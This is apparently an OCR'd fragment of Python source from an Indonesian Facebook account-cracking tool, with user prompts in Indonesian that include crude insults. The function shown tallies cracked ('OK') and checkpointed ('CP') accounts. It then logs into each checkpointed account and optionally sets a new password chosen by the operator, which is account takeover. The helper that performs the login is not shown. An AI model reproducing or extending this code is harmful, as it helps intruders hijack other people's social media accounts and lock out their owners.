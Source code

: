 def hasil(ok,cp):
	#os.popen('play-audio data/selesai.mp3')
	if len(ok) != 0 or len(cp) != 0:
		print("\n%s√ finished"%(H))
		print('%s+%s ---------------------------------------- %s+'%(P,M,P))
		print('%s• %sOK%s : %s%s'%(U,H,M,H,str(len(ok))))
		print('%s• %sCP%s : %s%s'%(U,K,M,K,str(len(cp))))
		print('%s+%s ---------------------------------------- %s+'%(P,M,P))
		if len(cp)==0:
			exit()
		else:
			c = input('\n%s%s%s gunakan detektor checkpoint? y/t%s > %s'%(U,til,O,M,K))
			if c =='':
				exit("%s%s Isi yang benar kentod "%(M,til))
			elif c in['Y','y']:
				jalan("\n%s•%s Mode pesawatkan terlebih dahulu 5 detik "%(U,O))
				pw=input("%s%s%s ubah sandi akun one tab? y/t %s> %s"%(U,til,O,M,K))
				if pw =='':
					print ("%s%s isi yg benar kentod "%(M,til))
				elif pw in['y','Y']:
					ubah_pass.append("ubah_sandi")
					pw2=input("%s%s%s masukan sandi %s> %s"%(U,til,O,M,K))
					if len(pw2) <= 5:
						print("%s%s sandi minimal 6 karakter "%(M,til))
					else:
						pwbaru.append(pw2)
				nomor=0
				for fb in cp:
					akun = fb.replace("\n","")
					ngecek  = akun.split(" ◊ ")
					nomor+=1
					print("\n%s%s.%s login akun %s> %s%s"%(H,str(nomor),O,M,K,akun.replace(" *--> ","")));jeda(0.07)
					try:
						mengecek(ngecek[0].replace(" *--> ",""), ngecek[1])
					except requests.exceptions.ConnectionError:
						sys.stdout.write("\r%s• tidak ada koneksi "%(M)),
						sys.stdout.flush();jeda(1)
						pass
					except:
						pass
				print("\n%s%s%s Selesai mengecek akun"%(U,til,O));jeda(0.07)
				#os.popen('play-audio data/cek.mp3')
				input('%s%s%s [%s Enter%s ] '%(U,til,O,U,O))
				pilihan().menu()
			elif c in['t','T']:
				exit()
			else:
				exit ("%s%s isi yg benar kentod "%(M,til))
	else:
		exit(f"\n{M}{til} Ops... tidak mendapatkan hasil :(")
